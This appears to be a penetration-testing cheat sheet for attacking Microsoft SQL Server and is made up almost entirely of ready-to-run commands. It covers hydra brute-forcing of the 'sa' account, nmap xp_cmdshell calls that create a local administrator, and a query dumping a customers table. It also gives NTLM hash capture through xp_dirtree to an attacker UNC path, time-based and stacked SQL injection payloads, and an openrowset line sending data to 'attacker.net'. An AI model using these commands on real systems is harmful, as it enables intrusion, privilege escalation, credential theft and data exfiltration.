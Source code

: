 # Databases - SqlServer

## Quick Reference 

- mssql-sql-injection-cheat-sheet: <http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet>
- SQL Server UNC Path Injection Cheatsheet: <https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e>

- Brute-forcing: `hydra -l sa –P /path/to/rockyou.txt 10.10.10.125 mssql`
- Nmap Enumeration:
    ```bash
    nmap –script "ms-sql and not ms-sql-brute" "–script-args=mssql.username=sa,mssql.password=password,ms-sql-config.showall=true,ms-sql-tables.maxdb=0,ms-sql-tables.maxtables=0,ms-sql-xp-cmdshell.cmd=ipconfig /all" -d -oN mssql.nmap -Pn -v -sV –version-intensity 9 -T2 -p T:27900,U:1434 10.33.1.33

    nmap -sV -T2 -Pn -n -sS –script=ms-sql-xp-cmdshell.nse -p1433 –script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user walter P@ssWORD1234 /add" 10.33.1.33

    nmap -sV -T2 -Pn -n -sS –script=ms-sql-xp-cmdshell.nse -p1433 –script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net localgroup administrators walter /add" 10.33.1.33

    nmap -v -sV –version-intensity 9 -T2 -p T:27900,U:1433 –script ms-sql-query –script-args mssql.username=sa,mssql.password=password,mssql.database=bankdb,ms-sql-query.query="SELECT * FROM tblCustomers" 10.33.1.33
    ```
    ```bash
    nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip
    ```
- Capture hash: Run responder and do: `xp_dirtree "\\10.10.14.8\test"`
- List all databases
    ```sql
    EXEC sp_databases;
    select * from sysobjects where xtype = 'U';
    ```
- Connect from Linux: `sqsh -S someserver -U sa -P poiuytrewq -D bankdb`
- Special Schemas: `INFORMATION_SCHEMA` `sys`
- DB Structure:
    ```sql
    SELECT name FROM master.dbo.sysdatabases
    SELECT * FROM orcharddb.INFORMATION_SCHEMA.
    SELECT * FROM orcharddb.INFORMATION_SCHEMA.COLUMNS
    ```
- SQL Injection Tips:
  - Commenting: `--`
  - Important functions
    - `xp_dirtree` - undocumented MSSQL stored procedure that allows for interaction with local and remote filesystems
    ```
    '+EXEC+master.sys.xp_dirtree+'\\10.10.14.9\share--
    ```
  - Time based injection
    ```
    ' if (select user) = 'sa' waitfor delay '0:0:5'--
    ' if (select user) != 'sa' waitfor delay '0:0:5'--
    ```
    ```
    WAITFOR DELAY '0:0:5'
    ```
  - Check support for stacked queries: `-1" AND 1=2; WAITFOR DELAY '0:0:5'; -- "`
- `insert into openrowset(‘SQLOLEDB’,‘DRIVER={SQL Server};SERVER=attacker.net,80;UID=sa;PWD=letmein’, ‘select * from foo’) values (@@version)`